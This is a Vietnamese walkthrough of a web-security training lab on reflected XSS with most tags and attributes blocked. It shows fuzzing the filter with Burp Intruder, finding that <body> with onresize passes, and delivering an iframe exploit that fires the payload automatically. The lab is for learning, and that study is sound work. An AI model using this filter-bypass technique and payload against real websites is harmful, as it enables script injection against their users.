







# Lab: Reflected XSS into HTML context with most tags and attributes blocked

## Mô tả lab

Bài lab này thuộc nhóm lỗi Reflected XSS. Lỗ hổng nằm trong chức năng tìm kiếm của website. Mục tiêu của bài lab là khai thác XSS để gọi hàm:

```javascript
print()
```

## Các bước thực hiện

## Phân tích chức năng tìm kiếm

Đầu tiên, nhập thử một payload XSS:

```html

```



Điều này cho thấy ứng dụng có cơ chế filter/WAF để chặn một số tag phổ biến như ``.

## Tìm tag được phép sử dụng

Vì hầu hết tag phổ biến bị chặn, cần xác định tag nào vẫn được phép.

Gửi request search sang Burp Intruder.



Payload list: [tags.txt](tags.txt)

Sau khi chạy Intruder, quan sát status code của các response.



Như vậy có thể dùng `<body>` làm tag để khai thác.

## Tìm event attribute được phép

Sau khi xác định tag `<body>` được phép, tiếp tục tìm event nào không bị WAF chặn.



Payload list: [events.txt](events.txt)



Kết quả cho thấy event sau được phép:

```html
onresize
```

Như vậy ta có thể kết hợp tag `<body>` với event `onresize`.

## Payload

```html
<body onresize="print()">
```

Tuy nhiên, mục tiêu của lab yêu cầu exploit phải tự động chạy khi victim mở link.

## Tạo exploit trên exploit server

Trên exploit server, sử dụng payload HTML sau:

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cbody%20onresize%3D%22print%28%29%22%3E" onload="this.style.width='100px'">
</iframe>
```



Bấm `Store` và `Deliver exploit to victim` để gửi exploit cho nạn nhân.



Lab solved.
